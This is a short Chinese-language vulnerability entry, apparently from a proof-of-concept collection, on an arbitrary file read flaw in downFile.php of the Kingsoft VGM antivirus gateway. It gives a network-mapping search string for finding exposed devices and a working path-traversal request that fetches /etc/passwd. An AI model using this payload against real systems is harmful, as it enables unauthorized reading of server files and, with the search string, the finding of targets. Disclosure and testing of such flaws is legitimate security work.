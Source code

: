 # 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 VGM防毒墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"金山VGM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649952941780-18a6aa75-45de-487e-bbf7-3fe231d7aec1.png)验证POC

```php
/downFile.php?filename=../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649953010512-03ef2560-62c5-4e06-8dd9-01650487c045.png)